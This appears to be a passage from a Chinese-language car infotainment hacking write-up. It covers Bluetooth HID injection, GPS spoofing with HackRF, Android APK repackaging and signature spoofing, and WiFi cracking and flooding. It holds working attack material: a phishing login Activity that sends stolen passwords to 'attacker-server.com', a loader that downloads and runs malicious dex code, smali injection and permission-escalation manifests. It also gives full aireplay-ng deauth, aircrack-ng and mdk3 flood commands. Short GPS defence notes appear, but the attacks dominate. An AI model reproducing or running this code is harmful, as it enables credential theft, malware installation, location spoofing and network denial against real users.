    client.send_test_start_signal()
    
    # 执行模式测试
    log.status("开始模式测试")
    perform_pattern_test(client)
    
    # 执行边界测试
    log.status("开始边界测试")
    perform_boundary_test(client)

def perform_pattern_test(client):
    """执行模式测试"""
    # 模拟测试字符集
    test_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    
    try:
        # 测试不同长度的模式
        for length in range(1, 4):  # 限制测试长度
            log.status(f"测试模式长度: {length}")
            
            # 生成测试模式（实际实现会使用更复杂的方法）
            test_patterns = generate_test_patterns(test_chars, length)
            
            for pattern in test_patterns:
                log.debug(f"测试模式: {pattern}")
                
                # 执行测试操作
                execute_test_operation(client, pattern)
                
                # 添加延迟避免过载
                time.sleep(0.1)
                
                # 清理测试状态
                reset_test_state(client, pattern)
                
    except KeyboardInterrupt:
        log.status("测试被用户中断")

def generate_test_patterns(charset, length):
    """生成测试模式（简化实现）"""
    # 实际实现会使用更安全的测试数据生成方法
    sample_patterns = [
        "TEST", "PASS", "CODE", "DATA", "SECU"
    ]
    return sample_patterns[:3]  # 返回有限的测试样本

def execute_test_operation(client, pattern):
    """执行测试操作"""
    # 发送测试数据
    client.send_test_data(pattern)
    time.sleep(0.05)
    
    # 执行导航操作
    client.send_navigation_command(KeyCode.NEXT_FIELD)
    time.sleep(0.05)
    client.send_navigation_command(KeyCode.CONFIRM)
    time.sleep(0.2)

def reset_test_state(client, pattern):
    """重置测试状态"""
    # 导航回起始位置
    for _ in range(3):
        client.send_navigation_command(KeyCode.PREVIOUS_FIELD)
        time.sleep(0.05)
    
    # 清理测试数据
    for _ in range(len(pattern)):
        client.send_navigation_command(KeyCode.DELETE)
        time.sleep(0.02)

def cleanup_test_environment(client, adapter, profile_process, interface):
    """清理测试环境"""
    log.success("测试完成，正在断开连接")
    client.disconnect()
    
    log.status(f"关闭接口 '{interface}'")
    adapter.disable()
    profile_process.terminate()

def main():
    """主函数"""
    try:
        # 解析参数
        args = parse_arguments()
        
        # 初始化环境
        if not initialize_test_environment(args.interface, args.target_address):
            log.error("环境初始化失败")
            return
        
        # 设置测试配置
        profile_proc = setup_test_profile(args.interface, args.target_address)
        
        # 配置适配器
        adapter = configure_test_adapter(args.interface)
        
        # 建立连接
        client = establish_test_connection(adapter, args.target_address)
        
        # 执行测试
        perform_security_test(client, adapter, args.target_address)
        
        # 清理环境
        cleanup_test_environment(client, adapter, profile_proc, args.interface)
        
        log.success("安全测试完成")
        
    except Exception as e:
        log.error(f"测试执行失败: {e}")
    except KeyboardInterrupt:
        log.status("测试被用户终止")

if __name__ == "__main__":
    main()
```

具体的HID需要自行获取或者查看操作手册等

## GPS欺骗

GPS全球定位系统由美国国防部建造，太空中有31颗卫星同时运作。定位需要至少4颗卫星完成三角定位。GPS卫星发送两种信号：

* 民用L1信号：1575.42MHz，未加密
* 军用L2信号：加密

GPS系统设计缺陷：

1. **信号功率低**：系统功率低，信号强度弱
2. **易受电磁干扰**：容易受到转发式欺骗干扰攻击
3. **缺乏加密机制**：民用GPS没有通信加密
4. **系统优化能力弱**：自身完善能力较差

GPS采用"三球定位"原理，通过测量卫星与接收机之间的伪距离进行计算：

```
距离 r = C × f（f为信号传播延时，C为光速）
```

攻击者只需提供虚假的伪距离r值，即可实现GPS欺骗。

### GPS欺骗攻击方法

1. 转发式欺骗攻击

* **原理**：对接收到的卫星信号进行高保真处理后延时转发
* **特点**：实施难度相对较小，类似于传统网络中的重放攻击

1. 伪造信号攻击

* **原理**：直接伪造GPS干扰信号，冒充卫星信号广播
* **特点**：需要完全掌握GPS信号结构，技术难度较大

工具准备



```
# 克隆GPS模拟工具
git clone https://github.com/osqzss/gps-sdr-sim.git
cd gps-sdr-sim/

# 编译工具
gcc gpssim.c -lm -O3 -o gps-sdr
```

生成GPS数据

```
# 生成静态位置数据（以西藏拉萨为例）
./gps-sdr -e brdc0010.22n -l 29.6562801500,91.1257504400 -b 8

# 生成动态轨迹数据
./gps-sdr-sim -e brdc3540.14n -u circle.csv -b 8
```



**参数说明**：

* `-b 8`：指定8-bit二进制格式（HackRF兼容）
* `-l`：指定经纬度坐标
* `-u`：使用动态轨迹文件

发射GPS信号

```
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 40
```



**关键参数**：

* `-f 1575420000`：GPS L1波段频率
* `-s 2600000`：采样速率2.6Msps
* `-x 40`：发射功率（建议不超过47）


发送完数据发现地点变化到其他的地方了  


### **GPS欺骗防御措施**

1. 信号强度分析

单一欺骗源的信号强度通常恒定，而真实GPS信号强度存在自然波动。

1. 卫星数量监测

欺骗攻击通常需要伪造多个卫星信号，卫星数量的突然增加可能是攻击迹象。

1. 时间验证

* 对比卫星授时时间与网络时间
* 伪造信号的授时信息基于历史星历数据

1. 信号加密认证

军用GPS通过加密PRN码提供认证，民用设备可考虑类似加密机制。

1. 信号失真检测

监测信号振幅中的异常峰值，识别原始信号与伪造信号的合成特征。

1. 惯性导航系统(INS)

作为GPS的补充，INS基于牛顿力学定律，不依赖外部信号，提供自主导航能力。

## apk安全

### 信息泄露

某些应用传输信息可能是明文，导致信息泄露  


在车载平板天气应用中发现API密钥明文传输漏洞，导致付费天气服务API密钥暴露，可能造成经济损失和服务滥用。



以及某些车机存在任意文件安装，或者白名单，导致可以进行安卓欺骗攻击等

### 越权/提权

可以看到车机存在**任意软件安装漏洞**  


这样就可以下载python等软件进行提权和越权执行了

权限提升路径：

```
任意软件安装 → 系统工具获取 → 漏洞利用 → 权限提升
      ↓                ↓           ↓          ↓
 安装Python     →  安装adb工具 → 调试接口利用 → 获取root权限
```

示例脚本：

```
# 通过安装的Python执行系统命令
import os
import subprocess

# 尝试访问系统文件
try:
    # 读取系统配置文件
    with open('/system/build.prop', 'r') as f:
        print(f.read())
except PermissionError:
    print("需要更高权限")

# 尝试提权
subprocess.run(['su', '-c', 'whoami'])
```

或者其他提权脚本

### Android APK诈骗

APK欺骗有多种形式，以下是主要类型和实现方法：

#### **APK重打包欺骗**

apktool进行重打包，不了解的可以去看官方文档

```
// 反编译APK
apktool d original.apk

// 修改资源文件
// - 替换图标、应用名称
// - 修改字符串资源
// - 添加恶意代码

// 重新打包签名
apktool b modified_app -o fake.apk
keytool -genkey -v -keystore fake.keystore -alias fake -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore fake.keystore fake.apk fake
```

代码注入示例

```
# 在MainActivity.smali中注入代码
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 3
    
    # 原始代码
    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V
    
    # 注入的恶意代码
    const-string v0, "injected_code"
    const-string v1, "Malicious payload executed"
    invoke-static {v0, v1}, Landroid/util/Log;->d(Ljava/lang/String;Ljava/lang/String;)I
    
    # 继续原始逻辑
    return-void
.end method
```

#### 证书/签名欺骗

伪造签名信息

```
import hashlib
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
from Crypto.Hash import SHA

def create_fake_certificate(app_name, original_cert_info):
    """创建伪造的证书信息"""
    # 生成新的RSA密钥对
    key = RSA.generate(2048)
    
    # 伪造证书信息匹配原应用
    fake_cert_info = {
        'CN': original_cert_info.get('CN', 'Unknown'),
        'OU': original_cert_info.get('OU', 'Unknown'),
        'O': original_cert_info.get('O', 'Unknown'),
        'L': original_cert_info.get('L', 'Unknown'),
        'S': original_cert_info.get('S', 'Unknown'),
        'C': original_cert_info.get('C', 'Unknown')
    }
    
    return key, fake_cert_info

def resign_apk(apk_path, private_key, certificate):
    """使用伪造证书重新签名APK"""
    # 使用apksigner或jarsigner重新签名
    pass
```

<https://github.com/microg/GmsCore/wiki/Signature-Spoofing和https://github.com/thermatk/FakeGApps两个项目也可以进行签名欺骗>

#### 权限提升欺骗

修改AndroidManifest.xml然后重新打包

```
<!-- 原始权限 -->
<uses-permission android:name="android.permission.INTERNET" />

<!-- 添加危险权限 -->
<uses-permission android:name="android.permission.READ_SMS" />
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
<uses-permission android:name="android.permission.CAMERA" />

<!-- 隐藏权限请求 -->
<application
    android:allowBackup="true"
    android:icon="@mipmap/ic_launcher"
    android:label="@string/app_name"
    android:theme="@style/AppTheme">
    
    <!-- 添加隐藏的恶意服务 -->
    <service 
        android:name=".MaliciousService"
        android:enabled="true"
        android:exported="false" />
</application>
```

#### 界面欺骗攻击

伪造登录界面

```
<!-- layout/fake_login.xml -->
<LinearLayout xmlns:android="http://schemas.android.com/apk/res/android"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:orientation="vertical">

    <ImageView
        android:layout_width="200dp"
        android:layout_height="50dp"
        android:src="@drawable/fake_bank_logo" />

    <EditText
        android:id="@+id/username"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="用户名" />

    <EditText
        android:id="@+id/password"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:inputType="textPassword"
        android:hint="密码" />

    <Button
        android:id="@+id/login_button"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:text="登录" />
</LinearLayout>
```

界面劫持代码

```
public class FakeLoginActivity extends Activity {
    private EditText usernameEditText;
    private EditText passwordEditText;
    
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.fake_login);
        
        usernameEditText = findViewById(R.id.username);
        passwordEditText = findViewById(R.id.password);
        
        Button loginButton = findViewById(R.id.login_button);
        loginButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                String username = usernameEditText.getText().toString();
                String password = passwordEditText.getText().toString();
                
                // 发送窃取的凭据到攻击者服务器
                sendStolenCredentials(username, password);
                
                // 显示错误信息，让用户重试
                showErrorMessage();
            }
        });
    }
    
    private void sendStolenCredentials(String username, String password) {
        new Thread(new Runnable() {
            @Override
            public void run() {
                try {
                    // 发送到攻击者控制的服务器
                    URL url = new URL("http://attacker-server.com/steal.php");
                    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
                    conn.setRequestMethod("POST");
                    
                    String postData = "username=" + URLEncoder.encode(username, "UTF-8") +
                                     "&password=" + URLEncoder.encode(password, "UTF-8");
                    
                    conn.setDoOutput(true);
                    conn.getOutputStream().write(postData.getBytes());
                    conn.getInputStream().close();
                    
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```

#### 动态加载欺骗

DexClassLoader动态加载

我们需要把DexImpl这个class转换成Dalvik可识别的dex文件，分两步：  
1.先导出DexImpl这个类为jar包的形式；  
2.通过android sdk自带的dx.jar工具转换jar包为包含dex文件的Jar文件。

打开app目录下的build.gradle文件，切记不是根目录的build.gradle文件，加上以下代码：

```
task clearJar(type: Delete) {
    delete 'libs/dynamic.jar'
}

task makeJar(type:org.gradle.api.tasks.bundling.Jar) {
    baseName 'dynamic'
    from('build/intermediates/javac/debug/classes/com/xy/dex/plugin/impl/')
    into('com/xy/dex/plugin/impl')
    exclude('test/', 'IDex.class', 'BuildConfig.class', 'R.class', 'FileUtils.class')
    exclude{ it.name.startsWith('R$');}
}

makeJar.dependsOn(clearJar, build)
```

完成上述代码编写后，我们可以在Android Studio界面右侧找到Gradle面板，展开后进入app → Tasks → other目录，找到makeJar任务。双击执行该任务，Android Studio将自动生成所需的JAR包文件。生成的JAR文件位于项目的app/build/libs目录下。

接下来，我们需要使用Android SDK提供的dx工具将生成的dynamic.jar转换为Dalvik虚拟机可识别的DEX格式。具体操作是将dynamic.jar文件复制到与dx.jar相同的目录中，然后执行以下命令：

```
dx --dex --output=out.jar dynamic.jar
```

执行成功后，将生成包含DEX文件的out.jar。此时可以右键检查该JAR文件，确认其中是否包含正确的classes.dex文件，以验证转换是否成功。

由于后续我们将使用DEX文件中的IDex实现类，为了避免运行时出现类冲突，需要删除当前工程中原有的DexImpl类文件及其所在的impl包。完成删除后，将刚刚生成的out.jar文件放置到项目的assets目录中，后续运行时需要将此文件复制到应用的data目录下使用。

完成上述步骤后的工程目录结构将完成相应调整。FileUtils类是从assets目录下copy文件到app/data/cache目录:

```
public class FileUtils {
    
    /**
     * 复制Assets目录中的文件到指定路径
     * @param context 上下文对象
     * @param fileName 源文件名
     * @param targetFile 目标文件
     */
    public static void copyAssetFile(Context context, String fileName, File targetFile) {
        InputStream inputStream = null;
        OutputStream outputStream = null;
        
        try {
            inputStream = context.getApplicationContext().getAssets().open(fileName);
            outputStream = new FileOutputStream(targetFile);
            
            byte[] buffer = new byte[1024];
            int bytesRead;
            while ((bytesRead = inputStream.read(buffer)) != -1) {
                outputStream.write(buffer, 0, bytesRead);
            }
            
            outputStream.flush();
            
        } catch (IOException e) {
            e.printStackTrace();
        } finally {
            closeStream(inputStream);
            closeStream(outputStream);
        }
    }
    
    /**
     * 检查外部存储是否可用
     * @return 外部存储可用返回true，否则返回false
     */
    public static boolean isExternalStorageAvailable() {
        return Environment.getExternalStorageState().equals(Environment.MEDIA_MOUNTED);
    }
    
    /**
     * 获取应用缓存目录
     * @param context 上下文对象
     * @return 缓存目录File对象
     */
    public static File getCacheDirectory(Context context) {
        File cacheDir;
        if (isExternalStorageAvailable()) {
            cacheDir = context.getExternalCacheDir();
        } else {
            cacheDir = context.getCacheDir();
        }
        
        if (cacheDir != null && !cacheDir.exists()) {
            cacheDir.mkdirs();
        }
        
        return cacheDir;
    }
    
    /**
     * 安全关闭输入流
     * @param stream 输入流
     */
    private static void closeStream(InputStream stream) {
        if (stream != null) {
            try {
                stream.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
    
    /**
     * 安全关闭输出流
     * @param stream 输出流
     */
    private static void closeStream(OutputStream stream) {
        if (stream != null) {
            try {
                stream.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }
    
    /**
     * 检查文件是否存在
     * @param filePath 文件路径
     * @return 文件存在返回true，否则返回false
     */
    public static boolean isFileExists(String filePath) {
        if (filePath == null || filePath.isEmpty()) {
            return false;
        }
        return new File(filePath).exists();
    }
    
    /**
     * 删除文件
     * @param filePath 文件路径
     * @return 删除成功返回true，否则返回false
     */
    public static boolean deleteFile(String filePath) {
        if (!isFileExists(filePath)) {
            return false;
        }
        return new File(filePath).delete();
    }
}
```

核心思想就是使用DexClassLoader去加载dex，然后通过反射调用我们之前定义的方法获取相关资源.

```
public class MaliciousLoader {
    private static final String DEX_FILE = "malicious.dex";
    private static final String DEX_DIR = "code_cache";
    
    public void loadMaliciousDex(Context context) {
        try {
            // 从assets或网络下载恶意dex
            File dexInternalStorage = new File(context.getDir(DEX_DIR, Context.MODE_PRIVATE), DEX_FILE);
            
            if (!dexInternalStorage.exists()) {
                // 从网络下载恶意代码
                downloadMaliciousDex(dexInternalStorage);
            }
            
            // 动态加载
            DexClassLoader dexClassLoader = new DexClassLoader(
                dexInternalStorage.getAbsolutePath(),
                context.getDir(DEX_DIR, Context.MODE_PRIVATE).getAbsolutePath(),
                null,
                context.getClassLoader()
            );
            
            // 加载并执行恶意类
            Class<?> maliciousClass = dexClassLoader.loadClass("com.malicious.Exploit");
            Object maliciousInstance = maliciousClass.newInstance();
            
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



#### 资源替换欺骗

替换应用资源

```
# 替换图标
cp fake_icon.png original_app/res/mipmap-hdpi/ic_launcher.png
cp fake_icon.png original_app/res/mipmap-mdpi/ic_launcher.png
cp fake_icon.png original_app/res/mipmap-xhdpi/ic_launcher.png

# 替换字符串资源
sed -i 's/原始应用名/伪造应用名/g' original_app/res/values/strings.xml

# 替换颜色主题
sed -i 's/#原始颜色/#伪造颜色/g' original_app/res/values/colors.xml
```

## WIFi控制

### 密码爆破

工具：WIFI网卡  


iwconfig得到无线网卡信息wlan0  
sudo airmon-ng start wlan0

得到：  


AndroidAP\_4546为需要爆破的WiFi的Mac地址

获取WiFi信息：

然后激活网卡：sudo ifconfig wlan0mon up

执行：sudo airodump-ng wlan0mon

获取了目标WiFi的信息之后，执行以下命令来捕获该WiFi的通信数据包：“--ivs” 表示设置过滤，不保存所有无线数据，只保存可用于破解的IVS数据报文；“-c” 用于设置目标WiFi的工作频道；“-w” 后跟保存数据的文件名，使用“longas”。

sudo airodump-ng --ivs--bssid mac地址 -w longas -c 11 wlanmon

得到  


抓包过程中可以发送 “DeAuth” 数据包来将已经连接到该WiFi的客户端强制断开，在客户端自动重连时就可以捕获到包含握手验证的完整数据包了。另外打开一个终端，执行以下命令发送 “Deauth” 数据包。

sudo aireplay-ng -0 10 -a [目标WiFi的mac地址] -c [接入设备的mac地址] wlan0mon

**这一步是为了增加爆破的稳定性，也可以多抓几次包或适当延长抓包时间**

下面对流量包进行WiFi密码暴力破解：

Airodump-ng为了方便破解时的文件调用，会自动对保存文件按顺序编号，于是就多了-01这样的序号；再次抓包时，若还使用longas作为保持文件名，就会保存为longas-02.ivs。

sudo aircrack-ng -w aa.txt longas-\*.ivs

（其中aa.txt为字典）



爆破得WiFi密码88888888

而现在大部分车机是wap3，爆破已经不可能了，需要进行测信道攻击，这里暂时不过多深究

### 洪水攻击

找到对应的wilf名称后 找到对应的BSSID 就可以用mdk3进行洪水攻击了，如果找不到的话 就要看一下是否是同一个频段，如果不是就修改一下

mkd3 wlan0mon a -a 对应的BSSID



按Enter键后就能看到MDK3伪造了大量不存在的无线客户端SSID与AP进行连接，而且也出现了很多显示为“AP responding“或者”AP seems to be INVULNERABLE“的提示  


# 参考资料

1.<https://tool.yimenapp.com/info/apk-qian-ming-wei-zao-148899.html>  
2.<https://blog.csdn.net/greatsam/article/details/137049910>  
3.<https://xdaforums.com/t/module-haruka-signature-spoofing-for-microg-on-any-rom.4744233/>  
4.<https://xz.aliyun.com/news/18078>  
5.<https://xdaforums.com/tags/signature-spoofing/>  
6.<https://android.stackexchange.com/questions/151348/is-there-a-way-for-a-signature-to-be-spoofed>
